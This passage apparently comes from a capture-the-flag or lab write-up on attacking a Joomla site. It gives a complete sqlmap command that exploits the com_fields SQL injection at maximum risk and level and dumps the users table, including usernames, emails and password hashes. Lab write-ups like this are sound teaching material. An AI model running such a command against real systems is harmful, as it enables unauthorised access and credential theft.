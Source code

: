 I can now use the wordlist check to find columns (abort run after the interesting fields are available):

![Information obtained automatically by sqlmap](img/database_extracted_automatically.png)

As an alternative, I can check the joomla documentation and state the columns individually:

```
sqlmap -u "http://10.10.123.253/index.php?option=com_fields&view=fields&layout=modal&list[fullordering]=updatexml" --risk=3 --level=5 --random-agent -D joomla -T '#__users' -C id,name,username,email,password,usertype,block,sendEmail,registerDate,lastvisitDate,activation,params --dump
```

![Extract columns by name](img/database_manual_colums.png)

---